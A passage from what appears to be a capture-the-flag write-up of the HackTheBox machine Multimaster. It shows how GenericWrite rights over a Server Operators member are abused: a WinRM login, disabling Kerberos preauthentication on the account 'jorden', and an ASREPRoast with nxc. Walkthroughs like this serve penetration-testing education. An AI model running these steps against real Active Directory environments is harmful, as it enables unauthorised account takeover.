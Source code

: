<figure><img src="../../.gitbook/assets/multi_password_spray_sbauer.png" alt=""><figcaption><p>Figure 28: Password spraying move us forward once more!</p></figcaption></figure>

## GenericWrite Rights

During our [#domain-enumeration](multimaster.md#domain-enumeration "mention"), we saw that `sbauer` has [`GenericWrite`](../../tl-dr/active-directory/permissions/genericwrite.md) rights over `jorden` who is a member of the [`Server Operators`](../../tl-dr/active-directory/groups/server-operators.md) group. This allows us to compromise the latter by changing its `Does not require preauth` option (Figure 29) which makes the account susceptible to [ASREPRoasting](../../tl-dr/active-directory/attacks/asreproasting.md) (Figure 30).

{% tabs %}
{% tab title="1. WinRM" %}
```bash
evil-winrm -i 10.10.10.179 -u sbauer -p $(cat sbauer_pass)
```
{% endtab %}

{% tab title="2. Preauth setting" %}
```powershell
# set the preauth option to true
Get-ADUser Jorden | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```
{% endtab %}

{% tab title="3. ASREPRoast " %}
{% code overflow="wrap" %}
```bash
nxc ldap 10.10.10.179 -u sbauer -p sbauer_pass --asreproast asreproastable_users.txt
```
{% endcode %}
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/multi_set_preauth.png" alt=""><figcaption><p>Figure 29: Setting the PREAUTH for the account jorden.</p></figcaption></figure>
